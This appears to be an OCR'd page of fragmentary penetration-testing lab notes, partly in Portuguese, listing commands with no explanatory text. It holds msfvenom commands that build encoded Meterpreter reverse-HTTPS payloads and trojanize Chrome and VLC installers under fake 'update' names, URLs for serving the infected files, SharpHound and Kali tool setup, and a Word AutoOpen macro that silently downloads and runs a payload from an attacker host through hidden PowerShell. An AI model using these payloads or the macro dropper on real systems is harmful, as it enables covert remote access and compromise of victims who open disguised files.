 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe

http://192.168.1.137:8080/documento_infectado.rtf

http://192.168.1.137:8080/microsoft_update.page.zip

 SharpHound.exe -c All
 
 http://<IP_DO_KALI>:8080/SharpHound.exe

https://github.com/BloodHoundAD/SharpHound/releases


mkdir -p ~/lab/scans ~/lab/exploits ~/lab/reports ~/lab/scripts



sudo apt install kali-linux-large virtualbox-guest-x11 build-essential -y

sudo msfdb init

sudo systemctl start postgresql
sudo systemctl enable postgresql

sudo apt install bloodhound neo4j gobuster seclists wireshark john hashcat nmap burpsuite -y


sudo dpkg -i Nessus-xxx.deb
sudo systemctl start nessusd


Sub AutoOpen()
    On Error Resume Next
    Dim objShell As Object
    Set objShell = CreateObject("WScript.Shell")
    
    ' Comando para baixar e executar o payload
    objShell.Run "powershell -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command " & _
                "Invoke-WebRequest -Uri 'http://<SEU_IP>:8080/payload.exe' -OutFile 'C:\Users\Public\update.exe'; " & _
                "Start-Process 'C:\Users\Public\update.exe'", 0, False
    
    Set objShell = Nothing
End Sub

https://www.microsoft.com/pt-br/software-download/windows10ISO

https://www.maltego.com/downloads/


